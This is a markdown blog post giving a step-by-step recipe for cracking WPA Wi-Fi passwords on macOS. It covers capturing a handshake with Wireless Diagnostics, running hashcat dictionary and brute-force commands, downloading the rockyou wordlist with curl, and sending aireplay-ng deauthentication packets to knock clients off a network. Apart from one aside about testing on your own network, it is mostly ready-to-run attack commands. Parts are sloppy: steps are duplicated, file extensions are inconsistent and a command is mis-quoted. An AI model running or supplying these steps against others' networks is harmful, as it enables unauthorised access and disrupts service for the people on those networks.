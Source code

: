 ```yaml
---
title: Wifi Cracker in Mac OS X
date: 2020-01-12 23:04:34
categories:
tags:
---
```


Mac OS X comes with a suite of wireless diagnostic tools. To open them, hold down the option key on your keyboard and click on the Wi-Fi icon in the menu bar. Then click "Open Wireless Diagnostics..." and then click on Window > Scan. Find the target network, note its channel and width.

<!--more-->

# Capture a 4-way Handshake
With Wireless Diagnostics open, click on Window > Sniffer. Select the channel and width that you found in the previous step.
Now you'll need to wait for a device to connect to the target network. If you are testing this on your network (which you should be), reconnect a wireless device to capture a handshake.
Once you think you've got a handshake, click Stop.
The .wcap capture file will either be saved to your Desktop or /var/tmp/ depending on your operating system version.
Convert the capture file to .hccapx by uploading it to https://hashcat.net/cap2hccapx/. If you captured any handshakes, the site will start downloading a .hccapx file. No download will be prompted if you did not.

* With Wireless Diagnostics open, click on Window > Sniffer. Select the channel and width that you found in the previous step.
* Now you'll need to wait for a device to connect to the target network. If you are testing this on your network (which you should be), reconnect a wireless device to capture a handshake.
* Once you think you've got a handshake, click Stop.
The .pcap capture file will either be saved to your Desktop or /var/tmp/ depending on your operating system version.
* Convert the capture file to .hccapx by using https://github.com/hashcat/hashcat-utils in src folder compile to bin.
  
`gcc -o cap2hccapx cap2hccapx.c" and then run it: "./cap2hccapx"`

# Crack the password with hashcat

```
brew install hashcat
hashcat -m 2500 capture.hccapx wordlist.txt
# or brute force
hashcat -m 2500 -a3 capture.hccapx ?d?d?d?d?d?d?d?d
```

# Wordlist - Download the 134MB rockyou dictionary file

```
curl -L -o dicts/rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

```
Other bigger candidates: 
* https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords/WPA-Length
* https://xa.to/10m

# Deauth Attack

## Get deauth Tool
```
brew install aircrack-ng
```
Find `aireplay-ng` in sbin.

```
# -0 2 specifies we would like to send 2 deauth packets. Increase this number
# if need be with the risk of noticeably interrupting client network activity
# -a is the MAC of the access point
# -c is the MAC of the client
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0
```
You can optionally broadcast deauth packets to all connected clients with:
```
# not all clients respect broadcast deauths though
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 mon0
```


reference:

https://github.com/brannondorsey/wifi-cracking
https://louisabraham.github.io/articles/WPA-wifi-cracking-MBP.html